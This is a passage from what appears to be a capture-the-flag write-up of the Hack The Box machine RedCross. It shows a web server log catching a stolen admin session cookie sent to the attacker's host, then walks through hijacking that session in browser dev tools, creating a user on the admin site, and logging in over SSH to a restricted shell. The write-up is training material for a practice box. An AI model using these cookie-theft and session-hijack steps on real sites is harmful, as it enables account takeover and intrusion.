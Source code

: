 Once the form submits, looking back at our web server we can see that we have a call back with someones cookie:
```
root@kali: python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.113 - - [23/Nov/2018 08:59:48] code 404, message File not found
10.10.10.113 - - [23/Nov/2018 08:59:48] "GET /ThoseGuys.gif?cookie=PHPSESSID=ak3oeagb7ph0fq8lusbjcenli2;%20LANG=EN_US;%20SINCE=1555369540;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Great! Looks like we have received a cookie with a heap of data, including a `PHPSESSID`, we can use this value to hijack this users session. Back in our browser we can add and edit cookies with the default browser dev tools or any other add-on.

Open the dev tools (F12) navigate to the Storage tab and find cookies on the left. Once there add the values from the stolen cookie as rows and refresh the page:
![238944293.png]({{site.baseurl}}/Images/RedCross/238944293.png)

It looks like at a minimum you will also need to add the `LIMIT=10` value if you're not already logged in as guest, this is the method for sqlinjection if you would like to explore that.

Refreshing the page we can see that we are now logged in as the admin user! 

Reading through the posts we can see that there might also be an admin url. Lets add that to our hosts file as well and navigate there https://admin.redcross.htb

Trying the same thing and reusing the cookie we also gain access to that site:
![238747670.png]({{site.baseurl}}/Images/RedCross/238747670.png)

First we look at the User Management page, looks like it is allowing us to create a user! Adding a user it looks like it automatically generates some credentials for us:
![221872132.png]({{site.baseurl}}/Images/RedCross/221872132.png)

Our nmap scans showed that the box has SSH open on port 22, now that we have some credentials lets try them and see if we can connect:
![221937671.png]({{site.baseurl}}/Images/RedCross/221937671.png)

It worked! Time to enumerate around and see what we have access to. Because it looks like we are in a `/bin/sh` shell, we can upgrade it by running `bash`.

Trying our usual enumeration methods we can see that the `/etc/passwd` file does not quite look right and we are unable to look at running process or listening ports:
![222003207.png]({{site.baseurl}}/Images/RedCross/222003207.png)

Looks like we are in a jail or restricted shell. We still have another page on the admin website that we haven't looked at yet, so let's head back there and see if it can help us escape the jail.

The webpage wants an IP address and looks like it adds it to a firewall whitelist. When we add our IP address and press the Allow IP button we get a message:
```
DEBUG: All checks passed... Executing iptables Network access granted to 10.10.14.12 
```

The site redirects us back to the whitelist page and we can see our IP added:
![222003212.png]({{site.baseurl}}/Images/RedCross/222003212.png)
